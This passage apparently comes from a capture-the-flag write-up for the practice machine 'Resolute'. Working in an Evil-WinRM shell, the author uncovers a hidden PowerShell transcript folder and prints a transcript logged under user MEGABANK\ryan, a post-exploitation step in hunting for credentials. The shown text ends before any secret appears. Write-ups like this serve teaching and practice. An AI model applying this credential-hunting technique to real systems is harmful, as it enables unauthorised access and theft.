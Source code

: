Let's go inside `PSTranscripts` and take a look:
```
*Evil-WinRM* PS C:\> cd PSTranscripts
*Evil-WinRM* PS C:\PSTranscripts> dir
*Evil-WinRM* PS C:\PSTranscripts> dir -Force


    Directory: C:\PSTranscripts


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d--h--        12/3/2019   6:45 AM                20191203


*Evil-WinRM* PS C:\PSTranscripts> cd 20191203
*Evil-WinRM* PS C:\PSTranscripts\20191203> dir -Force


    Directory: C:\PSTranscripts\20191203


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-arh--        12/3/2019   6:45 AM           3732 PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
```

We see that there's a PowerShell transcript for us to look into. So let's look inside:
```
*Evil-WinRM* PS C:\PSTranscripts\20191203> type PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
**********************
Windows PowerShell transcript start
Start time: 20191203063201
Username: MEGABANK\ryan
RunAs User: MEGABANK\ryan
Machine: RESOLUTE (Microsoft Windows NT 10.0.14393.0)
Host Application: C:\Windows\system32\wsmprovhost.exe -Embedding
Process ID: 2800
PSVersion: 5.1.14393.2273
PSEdition: Desktop
PSCompatibleVersions: 1.0, 2.0, 3.0, 4.0, 5.0, 5.1.14393.2273
BuildVersion: 10.0.14393.2273
CLRVersion: 4.0.30319.42000
WSManStackVersion: 3.0
PSRemotingProtocolVersion: 2.3
SerializationVersion: 1.1.0.1
**********************
Command start time: 20191203063455
**********************
PS>TerminatingError(): "System error."
>> CommandInvocation(Invoke-Expression): "Invoke-Expression"
>> ParameterBinding(Invoke-Expression): name="Command"; value="-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')
if (!$?) { if($LASTEXITCODE) { exit $LASTEXITCODE } else { exit 1 } }"
>> CommandInvocation(Out-String): "Out-String"
>> ParameterBinding(Out-String): name="Stream"; value="True"
**********************
Command start time: 20191203063455
**********************
PS>ParameterBinding(Out-String): name="InputObject"; value="PS megabank\ryan@RESOLUTE Documents> "
PS megabank\ryan@RESOLUTE Documents>
**********************
Command start time: 20191203063515
```